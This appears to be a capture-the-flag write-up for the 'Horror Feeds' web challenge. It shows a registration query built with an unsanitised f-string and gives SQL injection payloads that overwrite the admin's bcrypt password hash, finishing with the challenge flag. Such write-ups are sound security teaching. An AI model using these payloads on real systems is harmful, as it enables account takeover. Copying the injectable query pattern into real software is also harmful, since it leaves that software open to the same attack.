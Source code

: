 # CTFname - Horror Feeds

* **Category:** Category
* **Points:** 200

## Challenge

> An unknown entity has taken over every screen worldwide and is broadcasting this haunted feed that introduces paranormal activity to random internet-accessible CCTV devices. Could you take down this streaming service?

## Solution
```python
./web_horror_feeds/challenge/application/database.py

def register(username, password):
    exists = query_db('SELECT * FROM users WHERE username = %s', (username,))
   
    if exists:
        return False
    
    hashed = generate_password_hash(password)

    query_db(f'INSERT INTO users (username, password) VALUES ("{username}", "{hashed}")')
    mysql.connection.commit()

    return True
```

* As shown above there is a `register()` function which requires the paramaters `(username, password)` so it can be used in the query to store credentials to a database.
* The vulnerability occurs as there is no sanitization of the `username` therefore makes it possible to execute malicious SQL statements

![image](https://user-images.githubusercontent.com/78451563/198285821-bb4f404b-9c25-4976-bc96-ae7db112453d.png)

* To try login as admin we could try to update the admin's bcrypt password as creating another admin entry wouldn't work
</br>

### SQLi exploitation steps

![image](https://user-images.githubusercontent.com/78451563/198289332-b30893d0-8bb9-49af-b75b-c3bb43234e5e.png)

1. Firstly i ended the first INSERT query to make it easier:
```sql
admin","password");-- -
```
2. Now to create our custom password by using the `generate_password_hash()`:


```python
def generate_password_hash(password):
    salt = bcrypt.gensalt()
    return bcrypt.hashpw(password.encode(), salt).decode()

def verify_hash(password, passhash):
    return bcrypt.checkpw(password.encode(), passhash.encode())
```
* The server verifies our password using `bcrypt.checkpw` which involves the comparison of the already hashed stored password and the hashed entered password.

![image](https://user-images.githubusercontent.com/78451563/198292904-6832a28a-f3c7-4679-9a69-ff4a80d3d3ff.png)

* We can forge a password by utilising the `generate_password_hash(password)` function

4. Now to update the admins bcrypt password. I used `UPDATE` to change the admin's password and `COMMIT` to save the changes:

![image](https://user-images.githubusercontent.com/78451563/198295460-ebb27271-0f2e-48a3-82b2-be162b4cf988.png)

```sql
UPDATE users SET password='$2b$12$/SM/o3oxLx.rpLNtBrhrkOCXxK/myFjO7DsE83Xws95RSy8j8mjN6' WHERE username='admin'; COMMIT;-- -
```
5. Now to send to the server:

![image](https://user-images.githubusercontent.com/78451563/198296946-d034e2e8-6475-4daa-82c7-9a1310bc02aa.png)

![image](https://user-images.githubusercontent.com/78451563/198297003-93da0bb4-28e2-44d0-ac93-3ca2bbede074.png)

* While this does update the admin's password we get this error `Commands out of sync; you can't run this command now` meaning:
```
If you get Commands out of sync; you can’t run this command now in your client code, you are calling client functions in the wrong order.
```
* To resolve this error i used the `ON DUPLICATE KEY UPDATE` query.

[Payload Query Reference](https://chartio.com/resources/tutorials/how-to-insert-if-row-does-not-exist-upsert-in-mysql/)

```sql
ON DUPLICATE KEY UPDATE username='admin',password='$2b$12$XFj7IPgUFo4kI06hG9H5jOpoRPH3N5xqwF.tWdyefOJwiUOR6KCfa'
```

![image](https://user-images.githubusercontent.com/78451563/198306235-edbda84e-9564-461e-8102-e1da3745d3b8.png)

![image](https://user-images.githubusercontent.com/78451563/198306332-3b666681-382d-40b3-b736-8dd644feb4a1.png)


```
Flag: HTB{N3ST3D_QU3R1E5_AR3_5CARY!!!}
```
